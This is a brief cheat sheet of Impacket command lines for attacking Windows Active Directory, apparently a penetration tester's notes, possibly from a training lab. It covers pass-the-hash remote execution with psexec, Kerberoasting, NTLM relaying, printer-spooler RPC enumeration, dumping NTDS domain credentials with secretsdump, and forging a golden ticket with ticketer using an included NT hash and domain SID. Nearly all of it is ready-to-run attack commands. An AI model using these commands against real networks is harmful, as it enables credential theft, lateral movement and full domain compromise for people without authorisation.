 impacket

Passing the hash only works with NTLM, not NTLMv2

~~~bash
impacket-psexec "username":password@ipaddress
~~~

~~~bash
impacket-psexec "username":@ipaddress -hashes FullNTLM:Hash
~~~

~~~bash
impacket-GetUserSPNs Domain/Username:Password -dc-ip [Domain Controller IP] -request
~~~

~~~bash
impacket-smbserver share 'pwd' -smb2support
~~~

~~~bash
impacket-rpcdump @victimIP | egrep 'MS-RPRN|MS-PAR'
~~~

~~~bash
impacket-ntlmrelayx -smb2support -tf targets.txt
~~~

~~~bash
Impacket-GetUserSPNs FQDN/Username:Password -output tgs.txt -dc-ip DC_IP
~~~

~~~bash
impacket-ticketconverter user.kirbi user.ccache
~~~

dumping ntds from DC using ccache and secrets dump:

~~~bash
KRB5CCNAME=/home/kali/user.ccache impacket-secretsdump -k -no-pass -dc-ip DC_IP -target-ip DC_IP Server.FQDN
~~~

~~~bash
impacket-ticketer -nthash 26bddd6c25e8ee0f6bbbcf6d9c5e4c26 -domain-sid S-1-5-21-4221735399-2339777703-2054613801 -domain training.rt.bluebastion.net da.admin
~~~

~~~bash
impacket-ntlmrelayx -tf targets.txt -smb2support -socks --output-file hashes.txt
~~~

